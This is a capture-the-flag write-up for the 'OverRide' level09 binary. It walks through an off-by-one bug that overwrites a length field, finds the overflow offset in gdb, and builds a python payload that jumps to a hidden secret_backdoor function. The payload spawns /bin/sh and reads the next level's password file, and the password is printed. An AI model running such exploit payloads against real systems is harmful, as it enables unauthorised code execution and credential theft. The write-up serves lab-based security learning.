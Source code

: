 
When executing this program, we are prompted to enter a username and then a message

```
level09@OverRide:~$ ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: xavier
>: Welcome, xavier
>: Msg @Unix-Dude
>>: hola
>: Msg sent!
```

By observing the code, we can see a function called secret_backdoor that is not called. This function allows us to execute whatever we want using the system() function.

```c
long long secret_backdoor()
{
    char v0;  // [bp-0x88]

    fgets(&v0, 128, stdin);
    return system(&v0);
}
```

So, we can deduce that we will need to modify the execution flow by modifying the RIP register at a certain point.

We can see that the program uses a message struct which stores the username, the message, and the message size.

```c
struct	s_message
{
	char	message[140];
	char	username[40];
	int		len;
}   t_message;
```

We can also see that in the set_username function, during the loop which writes the user's name into the struct, instead of looping 40 times, we will loop 41 times due to the <= 40 condition.

```c
for (v2 = 0; v2 <= 40 && (&v1)[v2]; v2 += 1)
    {
        a0->username[v2] = (&v1)[v2];
    }
```

This will allow us to overflow the len attribute of our struct and write the first high bit of this latter.
This vulnerability will allow us to overflow in set_msg at the level of strncpy which will write to a0->len of the message that we will write using fgets into a0->message.

```c
fgets(&v1, 0x400, stdin);
strncpy(a0->message, &v1, a0->len);
```

This means that we know what our payload will look like.

```
(python -c 'print("a"*40 + "\xff" + "\n" + "a" * OFFSET + "secret_backdoor") + "\n" + "/bin/sh"'; cat) | ./level09
```


To find the offset, we use a pattern generator. https://wiremask.eu/tools/buffer-overflow-pattern-generator/?
```
(gdb) run < <(python -c 'print("a"*40 + "\xff" + "\n" + "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag<span style="color:red">6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4</span>Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9")')

--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!

Program received signal SIGSEGV, Segmentation fault.
0x0000555555554931 in handle_msg ()
(gdb) x/s $rsp
0x7fffffffe5d8:  "6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4"
```
<span style="color:red">6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4</span> We can see that this string of characters starts from 200 of the pattern.

offset = 200


Now let's find the address of secret_backdoor.
```
(gdb) print secret_backdoor
$1 = {<text variable, no debug info>} 0x55555555488c <secret_backdoor>
```
secret_backdoor = 0x55555555488c

(python -c 'print("a"*40 + "\xff" + "\n" + "a" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00") + "\n" + "/bin/sh"'; cat) | ./level09

```
level09@OverRide:~$ (python -c 'print("a"*40 + "\xff" + "\n" + "a" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00") + "\n" + "/bin/sh"'; cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cat /home/users/end/.pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

